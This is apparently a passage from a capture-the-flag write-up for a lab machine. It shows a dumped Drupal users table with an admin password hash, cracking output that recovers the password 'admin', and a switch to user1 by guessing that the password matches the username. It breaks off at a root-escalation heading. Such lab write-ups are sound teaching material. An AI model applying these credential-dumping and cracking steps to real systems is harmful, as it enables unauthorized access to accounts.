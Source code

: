 ```terminal

MariaDB [drupaldb]> select * from ptd_users;
+-----+---------------+---------------------------------------------------------+-----------------------+-------+-----------+------------------+------------+------------+------------+-------
-+---------------------+----------+---------+-----------------------+------+
| uid | name          | pass                                                    | mail                  | theme | signature | signature_format | created    | access     | login      | status
 | timezone            | language | picture | init                  | data |
+-----+---------------+---------------------------------------------------------+-----------------------+-------+-----------+------------------+------------+------------+------------+-------
-+---------------------+----------+---------+-----------------------+------+
|   0 |               |                                                         |                       |       |           | NULL             |          0 |          0 |          0 |      0
 | NULL                |          |       0 |                       | NULL |
|   1 | administrador | $S$Dobcr9v53WJdz6GsuhauWnwKNTm1pZpId6/rNl6psZwj2prE3d9V | chilakiller@ptd.local |       |           | NULL             | 1596317328 | 1643552710 | 1643551677 |      1
 | America/Mexico_City |          |       0 | chilakiller@ptd.local | b:0; |
+-----+---------------+---------------------------------------------------------+-----------------------+-------+-----------+------------------+------------+------------+------------+-------
-+---------------------+----------+---------+-----------------------+------+
2 rows in set (0.00 sec)

```

We got the hash, let's crack it.

```terminal
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (?)     
1g 0:00:01:02 DONE (2025-04-21 19:10) 0.01605g/s 318.2p/s 318.2c/s 318.2C/s astro..LOVE1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

It just cracked to `admin`.

After banging my head for hours to find privilege escalation on this box it turned out to be user1 is using the username as a password.

```terminal
www-data@chilakiller:$ su user1
Password: 
user1@chilakiller:$ id
uid=1000(user1) gid=1000(user1) groups=1000(user1),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),117(scanner),1001(ch)
```

### user1 -> root

Running linpaes we find the following information.
